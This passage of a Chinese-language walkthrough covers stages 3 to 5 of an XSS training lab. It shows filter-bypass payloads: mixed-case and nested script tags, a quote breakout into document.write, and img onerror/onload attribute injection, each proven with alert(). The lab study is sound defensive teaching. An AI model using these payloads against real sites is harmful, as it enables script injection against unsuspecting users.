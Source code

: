 - 試著把script 做些變動像是
- ```<SCript></scRIPT>``` or ```<sscriptcript></sscriptcript>```
- payload : ```"><SCripT>alert(1)</scRIPt>```
![](/Web_Threat_Training/XSS/Web_Threat_Training_XSS_14)
- payload : ```"><sscriptcript>alert(123)</scrscriptript>``` 
![](/Web_Threat_Training/XSS/Web_Threat_Training_XSS_16)

- 送出後成功了！！！
![](/Web_Threat_Training/XSS/Web_Threat_Training_XSS_17)

### Stage 4 
![](/Web_Threat_Training/XSS/Web_Threat_Training_XSS_18)

- 同樣隨意輸入個值
![](/Web_Threat_Training/XSS/Web_Threat_Training_XSS_19)

- 這次被寫入```<script>document.write("leowu")</script>```
![](/Web_Threat_Training/XSS/Web_Threat_Training_XSS_20)

- 一樣試著構造新的script 作為payload 
- payload : ```x");alert("1```
![](/Web_Threat_Training/XSS/Web_Threat_Training_XSS_21)

- Success !!!
![](/Web_Threat_Training/XSS/Web_Threat_Training_XSS_22)

### Stage 5 
![](/Web_Threat_Training/XSS/Web_Threat_Training_XSS_23)

- 同樣隨意輸入個值
![](/Web_Threat_Training/XSS/Web_Threat_Training_XSS_24)

- 這次會發現原本的圖片無法讀取了，這是個搜尋圖片來源的輸入匡
- 果然看到 source code ```<img src="leo">```

![](/Web_Threat_Training/XSS/Web_Threat_Training_XSS_25)

- 已知這裡有用 img tag, 試試看家一些attribute 上去
- [Event Attribute](https://www.w3schools.com/tags/ref_eventattributes.asp)



- payload : 
    1. ```www.google.com" onerror="alert(1)```
    - 這個payload 前面放什麼不重要，主要是能造成圖片讀取error 觸發error attribute
    ![](/Web_Threat_Training/XSS/Web_Threat_Training_XSS_26)


    2. ```lolcat_airplan.jpg onload="alert(1)```
    - 這個 payload 要首先知道可以跑出來的圖片名稱，在觸發onload attribute
    ![](/Web_Threat_Training/XSS/Web_Threat_Training_XSS_27)
    ![](/Web_Threat_Training/XSS/Web_Threat_Training_XSS_28)
